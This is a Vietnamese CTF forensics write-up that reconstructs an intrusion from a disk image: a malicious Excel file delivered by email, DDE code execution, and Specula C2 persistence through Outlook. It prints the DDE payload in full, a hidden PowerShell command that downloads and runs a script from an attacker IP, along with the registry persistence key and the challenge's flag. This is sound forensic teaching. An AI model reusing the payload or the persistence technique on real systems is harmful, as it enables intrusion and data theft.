

+++
title = 'Lookout — Write-up'
date = '2026-06-13T23:00:00+07:00'
draft = false
tags = ['forensics', 'BKCTF2026', 'malware', 'c2', 'specula', 'outlook', 'windows']
categories = ['CTF Write-ups', 'Forensics']
+++

# Lookout — Write-up

**BKISC CTF 2026 · Forensics**

---

## Đề bài

> *"Ai đó đang theo dõi bạn. Hãy tìm ra bằng chứng."*

**File đính kèm:** `chall.ad1` (2.2 GB — AccessData Logical Image)  
**Tải về:** [chall.ad1 — OneDrive](https://1drv.ms/u/c/2f661437c52d8a10/IQAkxaS_vTNwQqKoi0vLrxCKAVn2vWZRkgYDzcLD1hlrsOQ?e=U1klCW)

---

## Tổng quan

Bài này mô phỏng một kịch bản tấn công có chủ đích hoàn chỉnh: kẻ tấn công gửi file `report.xlsx` độc hại qua email, lợi dụng tính năng của Office để cài cắm C2 framework vào Outlook, rồi âm thầm thu thập và mã hóa dữ liệu trước khi xóa sạch dấu vết. Nhiệm vụ là tái dựng lại toàn bộ chuỗi đó từ một file ảnh đĩa duy nhất.

```mermaid
flowchart LR
    A[chall.ad1] --> B[Dissect\ntarget-shell]
    B --> C[OST Email\nAttachment]
    C --> D[Excel Autosave\n.xlsb]
    D --> E[DDE Attack\nexternalLink1.bin]
    E --> F[PowerShell\nFileless Loader]
    F --> G[Specula C2\n192.168.1.189]
    G --> H[XOR Encrypted\nPayloads]
    H --> I[flag.py\nRC4 Decrypt]
    I --> J["BKISC{...}"]

    style A fill:#1e293b,color:#94a3b8
    style J fill:#166534,color:#bbf7d0
    style G fill:#7c2d12,color:#fed7aa
```



---

## Bước 1 — Mở file ảnh đĩa

Thứ đầu tiên cần giải quyết là làm sao đọc được file `chall.ad1`. Định dạng `.ad1` là **AccessData Logical Image** — một định dạng container độc quyền của hãng AccessData, không phải raw image như `.dd` hay `.E01`. Hầu hết các công cụ pháp y phổ biến trên Linux đều không hỗ trợ trực tiếp.

Mình đã thử lần lượt các công cụ trước khi tìm ra giải pháp đúng:

**FTK Imager** là công cụ chính thống nhất để mở định dạng này, nhưng phiên bản Linux đã bị ngừng hỗ trợ. Chạy qua Wine cũng thất bại vì các driver pháp y không tương thích với môi trường emulation.

**Autopsy** về lý thuyết hỗ trợ `.ad1` qua plugin Sleuth Kit, nhưng chưa khởi động được đã gặp lỗi Perl Taint Mode:

```
Insecure dependency in open while running with -T switch at /usr/bin/autopsy line 45.
```

Lỗi này xảy ra vì trên Parrot OS, biến `$PATH` chứa các thư mục người dùng — điều mà cơ chế bảo mật `-T` của Perl coi là "ô nhiễm". Sửa shebang từ `#!/usr/bin/perl -wT` thành `#!/usr/bin/perl -w` giúp Autopsy khởi động, nhưng kết quả vẫn không dùng được: trình duyệt file chỉ hiện raw bytes của container, không giải mã được cấu trúc NTFS bên trong.

**libad1** đi kèm trong gói `AD1Tools` của challenge cũng được thử. Sau khi vượt qua lỗi thiếu thư viện FUSE, công cụ này biên dịch thành công — nhưng lại segfault ngay khi xử lý file, có thể do version format không khớp.

**binwalk** chạy thẳng lên `chall.ad1` chỉ cho kết quả hàng trăm false positive (Zlib headers, JPEG signature...) vì nó không hiểu cấu trúc của container AD1.

Sau khi thử hết các hướng trên, mình tìm ra **Dissect** — framework pháp y Python mã nguồn mở của Fox-IT. Điểm khác biệt của Dissect là nó xử lý đúng cấu trúc container AD1 và parse cả hệ thống file NTFS bên trong.

```bash
pip install dissect
target-shell chall.ad1
```

Dissect mở một shell tương tác với đường dẫn kiểu Windows:

```
chall.ad1:/> cd \/:NONAME\ [NTFS]/[root]/Users/BKISC/
chall.ad1:/...> ls
AppData/  Desktop/  Documents/  Downloads/
```

Bước tiếp theo là trích xuất file. Lệnh shell thông thường như `save` hay `cat >` không hoạt động trong `target-shell`. Thay vào đó, `target-shell` cung cấp một IPython REPL với biến `t` là target object đã được nạp sẵn — và đây mới là cách đúng để đọc/ghi file.

```python
# Bên trong target-shell > python
# Dump toàn bộ cây thư mục để khảo sát
with open("/home/user/file_list.txt", "w") as out:
    for p in t.fs.path("/").rglob("*"):
        out.write(str(p) + "\n")
```

Đọc file đó, mình xác định được những artifact đáng chú ý:

```
.../Recent/report.xlsx.lnk       ← nạn nhân đã mở report.xlsx gần đây
.../Recent/report.zip.lnk        ← và cả report.zip
.../Downloads/report.zip         ← file ZIP gốc vẫn còn trong Downloads
.../Outlook/nguyencocay986@gmail.com.ost  ← toàn bộ hộp thư Outlook
```

File `.lnk` trong thư mục `Recent` là artifact Windows tự tạo mỗi khi người dùng mở một file — và chúng vẫn tồn tại ngay cả khi file gốc đã bị xóa. Hai shortcut này xác nhận nạn nhân đã mở cả `report.xlsx` lẫn `report.zip`. Hộp thư Outlook (file `.ost`) là nơi lưu trữ toàn bộ email nội bộ — và nhiều khả năng chứa email gốc đính kèm file độc hại.

Mình trích xuất file OST ra ngoài:

```python
ost = t.fs.path(
    "/\\/:NONAME [NTFS]/[root]/Users/BKISC/AppData/Local/Microsoft/Outlook/"
    "nguyencocay986@gmail.com.ost"
)
with open("/home/user/nguyencocay986.ost", "wb") as f:
    f.write(ost.open().read())
```

---

## Bước 2 — Phân tích hộp thư Outlook

Với file OST trong tay, mình dùng `binwalk` để tìm các file nhúng bên trong:

```bash
binwalk nguyencocay986@gmail.com.ost
```

Kết quả có một file ZIP mã hóa:

```
899584   0xDBA00   Zip archive data, encrypted, name: report.xlsx
```

Phản xạ đầu tiên là thử trích xuất và bẻ mật khẩu:

```bash
binwalk -e nguyencocay986@gmail.com.ost
zip2john DBA00.zip > hash.txt
john --wordlist=rockyou.txt hash.txt
```

`zip2john` trả về lỗi ngay:

```
Did not find End Of Central Directory.
```

File ZIP bị hỏng. Nguyên nhân: file OST không lưu dữ liệu liên tục theo byte — nó phân bổ dữ liệu thành các block không liền kề trên đĩa, tương tự cách FAT quản lý cluster. `binwalk` không hiểu cấu trúc này, nên khi gặp signature của ZIP, nó chép thẳng một đoạn byte tuyến tính — bao gồm cả dữ liệu của các block không liên quan. Kết quả là cấu trúc **End Of Central Directory (EOCD)** — phần bắt buộc ở cuối mọi file ZIP hợp lệ — hoàn toàn không khớp.

Đây là giới hạn cơ bản của `binwalk`: nó hiệu quả với raw image, nhưng không dùng được để trích xuất dữ liệu từ các container có cấu trúc phân mảnh như OST hay PST.

---

## Bước 3 — Bỏ qua mật khẩu bằng Excel Autosave

Thay vì cố gắng sửa file ZIP bị hỏng, mình thay đổi góc tiếp cận: *nếu nạn nhân đã mở được file này và nhập mật khẩu, thì bản thân Microsoft Office rất có thể đã tự lưu một bản nháp không mã hóa ở đâu đó trong hệ thống.*

Đây là điểm yếu pháp y ít được chú ý của tính năng **Autosave**: khi người dùng mở một file có mật khẩu và bắt đầu làm việc, Excel định kỳ lưu bản nháp phục hồi vào thư mục riêng trong `AppData`. Bản nháp này **không kế thừa mật khẩu** của file gốc — nó chỉ là dump trực tiếp của dữ liệu đang làm việc trong bộ nhớ.

Quay lại `target-shell`, mình tìm kiếm trong thư mục Autosave của Excel:

```
.../AppData/Roaming/Microsoft/Excel/report312080493576797376/
  report((Unsaved-312080580921779168)).xlsb      ← bản Autosave
  report((Unsaved-312080580921779168)).xlsb.FileSlack
```

File `.xlsb` (Excel Binary Workbook) — đây chính xác là bản nháp mình cần. Trích xuất ra:

```python
for p in t.fs.path("/").rglob("*Unsaved*"):
    if "report" in p.name and "xlsb" in p.name and "FileSlack" not in p.name:
        with open("/home/user/report_autosave.xlsb", "wb") as f:
            f.write(p.open().read())
        print("OK:", p.name)
```

---

## Bước 4 — Phát hiện DDE Attack trong file Excel

File `.xlsb` thực chất là một ZIP chứa các file nhị phân. Giải nén ra:

```bash
unzip report_autosave.xlsb -d excel_extracted/
```

Điều đáng chú ý đầu tiên: **không có `vbaProject.bin`** — tức là file này không chứa Macro VBA. Đây là chỉ dấu quan trọng vì các công cụ diệt virus thường tập trung quét Macro, nên việc không có Macro không có nghĩa là file lành.

Nằm trong thư mục `xl/externalLinks/` có file `externalLink1.bin`. Tên "externalLink" là tính năng hợp lệ của Excel dùng để nhúng liên kết tới nguồn dữ liệu bên ngoài — nhưng nó cũng là vector của kỹ thuật **DDE (Dynamic Data Exchange) Attack**, cho phép nhúng lệnh shell trực tiếp.

Mình đọc chuỗi Unicode từ file này (Office lưu text dạng UTF-16LE):

```python
with open("excel_extracted/xl/externalLinks/externalLink1.bin", "rb") as f:
    data = f.read()

decoded = data.decode('utf-16le', errors='ignore')
for line in decoded.split('\x00'):
    if len(line) > 10:
        print(line)
```

Output:

```
cmd.exe /c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(
"http://192.168.1.189:1704/report.txt");IEX $e
StdDocumentName
```

Khi nạn nhân mở file Excel này, Office tự động resolve "liên kết ngoài" và thực thi lệnh trên. PowerShell tải script `report.txt` từ IP `192.168.1.189:1704` rồi chạy thẳng trên RAM mà không ghi ra đĩa — kỹ thuật thường gọi là **Fileless Malware**. Không có gì để tìm trên đĩa ở bước này.

---

## Bước 5 — Đào dữ liệu từ Zlib chunks trong AD1

Để biết `report.txt` đã làm gì khi được thực thi, mình cần tìm **PowerShell Script Block Logging** — tính năng Windows ghi lại toàn bộ code PowerShell được chạy vào Event Log (Event ID 4104).

Vấn đề: file `.ad1` không lưu dữ liệu dạng thô. Toàn bộ nội dung bên trong được nén bằng **Zlib** trước khi đóng gói vào container. Điều này có nghĩa là `grep`, `strings`, hay bất kỳ công cụ text-search nào chạy trực tiếp trên `chall.ad1` đều sẽ không tìm thấy gì — kể cả khi dữ liệu cần tìm đang nằm ngay đó.

Giải pháp là duyệt thủ công toàn bộ file 2.2GB, tìm mọi vị trí có **Zlib magic byte** (`\x78\x9C`, `\x78\xDA`, `\x78\x01`, `\x78\x5E`) rồi thử giải nén từng khối. Để đọc file 2.2GB mà không bị tràn RAM, mình dùng `mmap` — kỹ thuật ánh xạ file vào bộ nhớ ảo:

```python
import mmap, re, zlib

with open("chall.ad1", "rb") as f:
    mm = mmap.mmap(f.fileno(), 0, access=mmap.ACCESS_READ)

target = "192.168.1.189".encode("utf-16le")

for match in re.finditer(b'\x78[\x01\x5e\x9c\xda]', mm):
    idx = match.start()
    try:
        decomp = zlib.decompressobj().decompress(mm[idx:idx+200000])
        if target in decomp:
            pos = decomp.find(target)
            ctx = decomp[max(0,pos-200):pos+500].decode('utf-16le', 'ignore')
            print(f"[offset {hex(idx)}]\n{ctx}\n")
    except Exception:
        pass
```

Script chạy mất khoảng 10–15 phút để quét hết 2.2GB. Kết quả trả về hai khối quan trọng.

**Khối thứ nhất** (offset `0x5d48333c`) chứa Event Log của PowerShell Script Block Logging. Từ đây mình đọc được toàn bộ lệnh đã chạy, và quan trọng hơn, một chuỗi xuất hiện trong kết nối HTTP:

```
o4WlfbKbx1xik1TgTQGeOQ||http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ,...
```

**Khối thứ hai** (offset `0x5624416e`) chứa HTTP traffic từ máy nạn nhân gửi tới C2 server, bao gồm User-Agent:

```
User-Agent: Mozilla/5.0 ... Trident/7.0; Specula;
Post: 192.168.1.189:8386
3F55250908166B24175D1C0C190B74246E7E12162A231C1B15272F31084D3C54...
```

Hai từ khóa then chốt: **`Specula`** trong User-Agent, và chuỗi hex dài phía sau.

---

## Bước 6 — Phân tích Specula C2 Framework

Tra cứu từ khóa `Specula`, mình xác định đây là **Specula C2 Framework** — một công cụ Command & Control do TrustedSec phát triển, khai thác tính năng **Home Page (WebView)** của Outlook.

Cơ chế hoạt động như sau: Specula ghi một URL vào Registry:

```
HKCU\Software\Microsoft\Office\16.0\Outlook\Webview\Inbox
  URL = http://192.168.1.189:8386/plugin/search/
```

Mỗi lần Outlook khởi động, nó tự động load trang web từ URL trên vào khung WebView bên trong giao diện. Trang đó chứa VBScript độc hại đóng vai trò Beacon — định kỳ kết nối về C2 server để nhận lệnh và gửi kết quả về. Từ góc nhìn của nạn nhân, Outlook trông hoàn toàn bình thường.



Dữ liệu Specula gửi về server được mã hóa XOR và encode dạng Hex. Điều quan trọng: trong log mình cũng tìm thấy **Agent ID** của Specula tồn tại dưới dạng plaintext:

```
o4WlfbKbx1xik1TgTQGeOQ
```

Nghiên cứu mã nguồn Specula cho thấy Agent ID chính là **khóa XOR** dùng để mã hóa toàn bộ traffic. Đây là mắt xích quyết định: có khóa là có thể giải mã mọi payload mà C2 đã thu thập.

---

## Bước 7 — Giải mã payload và khôi phục flag.py

Với khóa `o4WlfbKbx1xik1TgTQGeOQ` trong tay, mình quét lại toàn bộ file ảnh đĩa một lần nữa — lần này tìm mọi chuỗi Hex dài (≥ 50 ký tự) trong các Zlib chunk, thử giải mã XOR, và lọc ra những nội dung có nghĩa:

```python
import mmap, re, zlib, binascii

KEY = b"o4WlfbKbx1xik1TgTQGeOQ"

def xor_dec(hex_str):
    if len(hex_str) % 2: hex_str = hex_str[:-1]
    data = binascii.unhexlify(hex_str)
    return bytes(b ^ KEY[i % len(KEY)] for i, b in enumerate(data))

with open("chall.ad1", "rb") as f:
    mm = mmap.mmap(f.fileno(), 0, access=mmap.ACCESS_READ)

seen = set()
for match in re.finditer(b'\x78[\x01\x5e\x9c\xda]', mm):
    idx = match.start()
    try:
        decomp = zlib.decompressobj().decompress(mm[idx:idx+200000])
        for hm in re.finditer(b'[0-9A-Fa-f]{50,}', decomp):
            hs = hm.group(0).decode()
            if hs in seen: continue
            seen.add(hs)
            try:
                plain = xor_dec(hs).decode('ascii', 'ignore')
                if any(k in plain for k in ["def RC4", "Desktop", "Delete file"]):
                    print(f"--- {len(hs)} chars ---\n{plain[:600]}\n")
            except: pass
    except: pass
```

Script tìm ra ba payload có nghĩa, tái dựng lại toàn bộ timeline của cuộc tấn công:

**Payload 1** — Kết quả lệnh liệt kê Desktop (Specula đã gửi về C2 trước khi xóa):

```
Parent Folder: C:/Users/BKISC/Desktop
F: C:\Users\BKISC\Desktop\flag.py     - LastModified: 25/07/2025 15:41:41
F: C:\Users\BKISC\Desktop\Obsidian.lnk
D: C:\Users\BKISC\Desktop\PS_Transcripts
```

**Payload 2** — Nội dung của `flag.py` mà Specula đọc và gửi về trước khi ra lệnh xóa:

```python
# Just run the code to get the flag lol

def RC4(key : bytes, plaintext : bytes):
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    ciphertext = []
    for char in plaintext:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        t = (S[i] + S[j]) % 256
        ciphertext.append(char ^ S[t])
    return bytes(ciphertext)

key = b"lookalikechicken"
plaintext = b';fa\x98\xc9\x13\xc8\x89\xda\x04\xed\xb6\x19\x98\xfdgF-\x14S\xa8+\xf50\xc4p\xf90\xb2&j\x081'
print(RC4(key, plaintext).decode())
```

**Payload 3** — Xác nhận xóa dấu vết sau khi thu thập xong:

```
Delete file: C:\Users\BKISC\Desktop\flag.py - Success!
```

File `flag.py` đã bị xóa hoàn toàn khỏi đĩa. Tuy nhiên, Specula đã gửi nội dung của nó về C2 server — và toàn bộ traffic đó được Windows Event Log ghi lại trước khi xóa. Mình không cần file gốc vì đã có toàn bộ mã nguồn từ log.

---

## Bước 8 — Lấy Flag

Chạy lại đúng code trong payload vừa khôi phục:

```python
def RC4(key, plaintext):
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    result = []
    for char in plaintext:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        result.append(char ^ S[(S[i] + S[j]) % 256])
    return bytes(result)

key = b"lookalikechicken"
plaintext = b';fa\x98\xc9\x13\xc8\x89\xda\x04\xed\xb6\x19\x98\xfdgF-\x14S\xa8+\xf50\xc4p\xf90\xb2&j\x081'
print(RC4(key, plaintext).decode())
```

```
BKISC{l0oK_Ou7_f0R_0u71o0k_C2!!!}
```

$$\boxed{\texttt{BKISC\{l0oK\_Ou7\_f0R\_0u71o0k\_C2!!!\}}}$$

---

## Nhận xét

Điểm thú vị của bài này là ở chỗ mỗi lớp bảo vệ mà attacker dựng lên đều có một điểm yếu pháp y tương ứng — và tất cả những điểm yếu đó xuất phát từ chính các tính năng hợp lệ của hệ thống, không phải lỗi bảo mật theo nghĩa thông thường.

| Lớp bảo vệ của attacker | Điểm yếu pháp y bị khai thác |
|---|---|
| Mã hóa mật khẩu ZIP | Excel Autosave không kế thừa mật khẩu |
| Không dùng Macro VBA | DDE Attack để lại dấu vết trong `externalLink1.bin` |
| Payload chạy trên RAM (Fileless) | PowerShell Script Block Logging ghi vào Event Log |
| Traffic C2 mã hóa XOR | Agent ID lộ trong log plaintext — chính là khóa giải mã |
| Xóa `flag.py` sau khi thu thập | Specula đã gửi nội dung file về C2 trước khi xóa |

Bài học lớn nhất ở đây: **trong pháp y số, "xóa file" không đồng nghĩa với "xóa bằng chứng"**. Hệ điều hành và các ứng dụng luôn để lại dấu vết ở những nơi không ngờ tới — từ file `.lnk` trong `Recent`, đến Autosave của Office, đến Event Log, đến traffic đã được Windows cache lại. Nhiệm vụ của người điều tra là biết chính xác những nơi đó là đâu.
